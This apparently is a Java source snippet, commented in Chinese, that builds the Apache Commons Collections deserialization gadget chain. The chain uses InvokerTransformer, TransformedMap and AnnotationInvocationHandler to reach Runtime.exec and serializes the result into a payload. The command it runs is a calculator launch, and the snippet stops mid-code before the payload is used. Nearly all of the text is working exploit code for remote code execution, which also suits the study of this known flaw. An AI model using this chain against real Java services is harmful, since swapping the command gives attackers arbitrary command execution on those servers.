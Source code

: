 ```java
public class CommonsCollectionsTest {

	public static void main(String[] args) {
		String cmd = "open -a Calculator.app";
		Transformer[] transformers = new Transformer[]{
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[]{
						String.class, Class[].class}, new Object[]{
						"getRuntime", new Class[0]}
				),
				new InvokerTransformer("invoke", new Class[]{
						Object.class, Object[].class}, new Object[]{
						null, new Object[0]}
				),
				new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
		};

		// 创建ChainedTransformer调用链对象
		Transformer transformedChain = new ChainedTransformer(transformers);

		// 创建Map对象
		Map map = new HashMap();
		map.put("value", "value");

		// 使用TransformedMap创建一个含有恶意攻击链的Transformer
		Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

//		// 遍历Map元素，并调用setValue方法
//		for (Object obj : transformedMap.entrySet()) {
//			Map.Entry entry = (Map.Entry) obj;
//
//			// setValue最终调用到InvokerTransformer的transform方法,从而触发Runtime命令执行调用链
//			entry.setValue("test");
//		}
//
////		transformedMap.put("v1", "v2");// 执行put也会触发transform

		try {
			// 获取AnnotationInvocationHandler类对象
			Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

			// 获取AnnotationInvocationHandler类的构造方法
			Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

			// 设置构造方法的访问权限
			constructor.setAccessible(true);

			// 创建含有恶意攻击链(transformedMap)的AnnotationInvocationHandler类实例，等价于：
			// Object instance = new AnnotationInvocationHandler(Target.class, transformedMap);
			Object instance = constructor.newInstance(Target.class, transformedMap);

			// 创建用于存储payload的二进制输出流对象
			ByteArrayOutputStream baos = new ByteArrayOutputStream();

			// 创建Java对象序列化输出流对象
			ObjectOutputStream out = new ObjectOutputStream(baos);

			// 序列化AnnotationInvocationHandler类
			out.writeObject(instance);
			out.flush();
			out.close();

			// 获取序列化的二进制数组
```